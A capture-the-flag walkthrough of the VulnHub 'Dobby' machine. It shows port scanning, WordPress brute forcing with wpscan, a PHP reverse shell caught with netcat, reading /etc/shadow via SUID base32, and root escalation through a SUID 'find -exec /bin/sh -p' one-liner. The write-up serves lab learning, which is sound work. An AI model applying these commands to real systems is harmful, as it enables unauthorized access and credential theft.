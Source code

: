 # Dobby
## User flag

First thing as always nmap scan

```shell
nmap -p- -n --min-rate 5000 -sS -Pn -oN allports 192.168.1.39
PORT   STATE SERVICE
80/tcp open  http
```

If we do a more in depth scan to port 80

```shell
nmap -p80 -Pn -sCV -oN targeted 192.168.1.39
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

The http title is base64 encoded an it says "too easy no? Potter" so just a meaningless Harry Potter reference.The web is just an Apache default site (Although it contains some information I will talk about later) so let's fuzz for more.

Command line : `ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u http://192.168.1.39/FUZZ -recursion -recursion-depth 1
-of md -o ffuf:directories`
  Time: 2022-08-23T11:34:06&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | log | http://192.168.1.39/log |  | 625 | 200 | 45 | 3 | 4 |  |  |
  |  | http://192.168.1.39/ |  | 39970 | 200 | 10977 | 3502 | 409 | text/html |  |
  | server-status | http://192.168.1.39/server-status |  | 110248 | 403 | 277 | 20 | 10 | text/html; charset=iso-8859-1 |  |


If we go to log we get a password and a hint to go to DiagonAlley. The password seems base64 decoded and when you decode it you get "::ilovesocks" another Harry Potter reference in this case to Dobby, it's probably his password.

On DiagonAlley we have a wordpress site run by a user Draco the first post contains brainfuck encoded text that says "donn" and the second post is irrelevant. So the obvious thing to do here is to run wpscan however that didn't report any crucial information. I thought this maybe similar to the [mr.robot machine](mr.robot.md) I already did thus I enumerated users with wpscan an started a bruteforce attack also with wpscan (I tried hydra but it wasn't working However is a better tool for this kinds of attacks)

```shell
wpscan --url http://192.168.1.39/DiagonAlley --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
...
[+] draco
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.1.39/DiagonAlley/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] Draco
 | Found By: Rss Generator (Passive Detection)
```

User draco is valid so let's use rockyou.txt to bruteforce the login

```shell
wpscan --url http://192.168.1.39/DiagonAlley -P ~/wordlist/rockyou.txt -U draco
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
...
[!] Valid Combinations Found:
 | Username: draco, Password: slytherin
```

Right we have the password but, do you remember what I said about the apache page earlier? well it turns out this is not the only way of getting the password since if you look at the html code of the apache page there is a hint that says "Draco's password is his house ;)" Therefore that is another way to log in. You could also do a bit of "social engineering" and create your own Harry Potter wordlist. That's why I marked the machine as very easy because you can solve it in many different ways (not only this step).


Well once logged as an administrator I used the same trick ad in the [mr.robot machine](./mr.robot.md) that is changing the theme of a page to a php reverse shell. In this case I changed the main page to the php reverse shell that can be found [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Once in I improved the tty and logged as dobby

```shell
 nc -lvp 7777
Connection from 192.168.1.39:51810
Linux HogWarts 5.8.0-26-generic #27-Ubuntu SMP Wed Oct 21 22:29:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:00:02 up  7:39,  0 users,  load average: 0.00, 0.08, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@HogWarts:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@HogWarts:/$ stty rows 30 columns 132
www-data@HogWarts:/$ su dobby
Password:
dobby@HogWarts:/$
```

It is important to note that dobby's password is not "::ilikesocks" but "ilikesocks". If you also managed to get the reverse shell but for some reason you don't know the dobby password there is another method. If we search for SUID binaries we have base32 that basically let's us read every file on the system. So just read the dobby entrance on the /etc/shadow file and crack the hash. I honestly thought that this was the way to root and got the flag this way but the vulnhub page clearly said "dobby needs to be root to help harry potter, dobby needs to be a free elf".

## Root flag

So after trying some more things out I though that maybe I was a victim of "tunnel vision" and missed something on other step. I looked at the SUID binaries and found the solution

```shell
dobby@HogWarts:/$ find / -perm -4000 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/16292/usr/lib/snapd/snap-confine
/snap/core18/1932/bin/mount
/snap/core18/1932/bin/ping
/snap/core18/1932/bin/su
/snap/core18/1932/bin/umount
/snap/core18/1932/usr/bin/chfn
/snap/core18/1932/usr/bin/chsh
/snap/core18/1932/usr/bin/gpasswd
/snap/core18/1932/usr/bin/newgrp
/snap/core18/1932/usr/bin/passwd
/snap/core18/1932/usr/bin/sudo
/snap/core18/1932/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1932/usr/lib/openssh/ssh-keysign
/snap/core18/2538/bin/mount
/snap/core18/2538/bin/ping
/snap/core18/2538/bin/su
/snap/core18/2538/bin/umount
/snap/core18/2538/usr/bin/chfn
/snap/core18/2538/usr/bin/chsh
/snap/core18/2538/usr/bin/gpasswd
/snap/core18/2538/usr/bin/newgrp
/snap/core18/2538/usr/bin/passwd
/snap/core18/2538/usr/bin/sudo
/snap/core18/2538/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2538/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/p11_child
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/sbin/pppd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/base32
/usr/bin/gpasswd
/usr/bin/find
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
```

Do you see another dangerous binary on the list? well it's find that gives us root access just by simply executing this command


```shell
dobby@HogWarts:/$ find . -exec /bin/sh -p \; -quit
# whoami
root
# base32 /root/proof.txt | base32 -d
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


```

I had to use base32 to read since cat was not installed. Overall a great machine with many paths to the final solution!
